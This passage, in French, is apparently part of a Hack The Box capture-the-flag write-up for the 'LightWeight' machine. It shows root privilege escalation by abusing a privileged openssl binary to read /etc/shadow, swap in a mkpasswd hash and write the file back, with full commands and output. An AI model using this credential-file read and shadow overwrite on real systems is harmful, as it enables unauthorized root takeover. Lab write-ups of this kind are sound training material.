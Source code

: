 Comme vous pouvez le voir il y'a un fichier qui se nomme openssl nous avons juste à lire le fichier root.txt avec la commande openssl.

	[ldapuser1@lightweight ~]$ /home/ldapuser1/openssl enc -in /root/root.txt -out /tmp/password.txt
	[ldapuser1@lightweight ~]$ wc -c /tmp/password.txt 
	33 /tmp/password.txt
	[ldapuser1@lightweight ~]$

Nous avons bien le root.txt mais il faut être root c'est le principe d'une box. Donc notre but c'est de lire le fichier /etc/shadow et ensuite de le mettre dans le dossier /tmp, de changer le hash par notre hash avec mkpasswd pour ensuite remplacer /etc/shadow par notre fichier.

Tout d'abord on va crée notre mot de passe :

	root@Seyptoo:~/htb# mkpasswd -m sha-512 seyptoo
	$6$wtB8S4kweNAe37hN$Rttczh0dwMiKu7cAVcSQkTx8yxtG1qEwvBNrFommSsEmrQJ5LJjeOAKFQZw5QGH59VRqkE1bBFXsyrF6sQMS/0

Ensuite dans la machine LightWeight, nous allons créer clé privée avec openssl, et également de créer un fichier pem.

	[ldapuser1@lightweight tmp]$ openssl genrsa -out /tmp/key.pem 2048 # private key.
	[...SNIP...]
	[ldapuser1@lightweight tmp]$ openssl req -x509 -newkey rsa:2048 -keyout /tmp/key.pem -out /tmp/cert.pem -days 365 -nodes # pem.
	[...SNIP...]

Une fois que c'est ok, nous allons tout simplement lire le fichier /etc/shadow et de le mettre dans le dossier /tmp et ensuite de modifier le mot de passe root.

	[ldapuser1@lightweight tmp]$ /home/ldapuser1/openssl enc -in /etc/shadow -out /tmp/shadow
	[ldapuser1@lightweight tmp]$ vim /tmp/shadow
	root:$6$xQPkHtTmdxu$Tzpw.1d.5bb0TeHyMmZcb4Myg5FIRi4G4SfPDAXE2./vPYspVnMz1xigdAdXy/3GMIygruFPhwRBDX8YV5QzI1:17711:0:99999:7:::
	[...SNIP...]
	
Une fois que la valeur a été modifié nous allons transmettre ce fichier dans le dossier /etc.

	[ldapuser1@lightweight tmp]$ openssl smime -encrypt -aes256 -in /tmp/shadow -binary -outform DER -out /tmp/shadow.enc /tmp/cert.pem
	[ldapuser1@lightweight tmp]$ /home/ldapuser1/openssl smime -decrypt -in /tmp/shadow.enc -inform DER -inkey /tmp/key.pem -out /etc/shadow
	[ldapuser1@lightweight tmp]$ su - root
	Password: seyptoo
	Last login: Thu May  9 09:01:37 BST 2019 on pts/5
	Last failed login: Thu May  9 09:16:01 BST 2019 from 10.10.12.236 on ssh:notty
	There was 1 failed login attempt since the last successful login.
	[root@lightweight ~]# id
	uid=0(root) gid=0(root) groups=0(root)

![frustrated-computer-baboon](https://media.giphy.com/media/1tHzw9PZCB3gY/giphy.gif)

Parfait nous sommes root. C'étais ma box préférer n'hésiter pas à mettre un star dans ma repo ça me feras grave plaisir ! :D
